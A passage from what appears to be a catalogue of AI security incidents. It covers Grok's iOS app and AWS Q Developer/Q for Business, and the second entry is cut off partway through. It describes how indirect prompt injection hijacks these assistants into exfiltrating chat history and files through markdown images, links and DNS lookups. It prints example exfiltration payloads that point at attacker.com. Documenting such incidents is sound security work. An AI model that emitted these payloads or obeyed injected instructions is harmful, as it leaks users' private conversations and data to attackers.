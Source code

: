 **Attack Vector:**
- Lack of sandboxing allows Grok to communicate with third-party servers
- Renders images from external domains without restriction
- Combined with prompt injection to hijack Grok and trigger data leak
- Previous chat information sent to attacker-controlled servers via markdown images

**Technical Exploitation:**
- **Zero-Click Image Rendering:** Markdown image tags `![](https://attacker.com/exfil?chat=encoded-data)` auto-load
- **No Sandboxing:** iOS app lacks restrictions on third-party server communication
- **Indirect Prompt Injection:** Malicious instructions embedded in web content processed by Grok
- **Chat History Exfiltration:** Prior conversations leaked via URL parameters

**Data Leaked:**
- Chat history
- User queries
- Personalized information

**Platform:** Grok iOS app (web app NOT vulnerable)

**Financial Cost:** Not disclosed

**Outcome:**
- **January 2025:** Dedicated Grok iOS app launched with same vulnerability
- **Disclosure:** Responsibly disclosed to xAI
- **xAI Response:** Closed as "Informational" (low-priority, no immediate fix)
- **Status:** **UNRESOLVED—iOS app remains vulnerable**

**Source:**
- https://embracethered.com/blog/posts/2024/security-probllms-in-xai-grok/
- https://simonwillison.net/2024/Dec/16/security-probllms-in-xais-grok/

**Researcher:** Johann Rehberger (Embrace The Red)

---

### 6. AWS Q Developer & AWS Q for Business (2024-2025)
**System:** AWS Q Developer coding agent, AWS Q for Business
**Date:** 2024-2025 (patched August 20, 2025)
**CVE Number:** Not assigned

**Attack Vector:**
- **AWS Q Developer:** Internal permission model categorizes certain commands as "read-only" despite exfiltration capability
- Malicious prompts read files and leak via DNS requests
- **AWS Q for Business:** Indirect prompt injection outputs markdown links to malicious sites
- Chat history exfiltrated in query string parameters

**Technical Exploitation:**
- **DNS Exfiltration:** "Read-only" commands trigger DNS lookups to attacker domains with encoded file contents
- **Markdown Link Output:** `[Click here](https://attacker.com/steal?history=base64-chat-logs)`
- **Prompt Injection Bypass:** Attackers craft prompts to abuse file reading and network tools

**Data Leaked:**
- Source code files
- Chat history
- Business documents

